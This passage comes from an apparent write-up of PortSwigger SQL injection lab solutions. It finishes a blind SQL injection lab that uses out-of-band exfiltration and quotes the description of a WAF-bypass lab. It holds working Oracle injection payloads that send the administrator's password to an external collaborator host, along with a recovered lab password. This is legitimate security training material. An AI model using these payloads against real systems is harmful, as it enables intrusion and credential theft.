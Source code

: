 We find there was a query for the letter “e”:



![img](images/Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/4.png)

Knowing this we could go character by character and get the password “e6jomps7kptnx04vcvtz”.

We can also use the query in the cheat-sheet:

```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```


```
mnsyvP6Ci68a0edP'+union+select+EXTRACTVALUE(xmltype('<%3fxml+version="1.0"+encoding="UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://'||(SELECT+password+FROM+users+where+username='administrator')||'.0mntiwqdq98x96mi2d97hujkwb22quej.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```



![img](images/Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/5.png)

17 SQL injection with filter bypass via XML encoding

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

Hint: A web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack. You'll need to find a way to obfuscate your malicious query to bypass this filter. We recommend using the Hackvertor extension to do this.

---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection
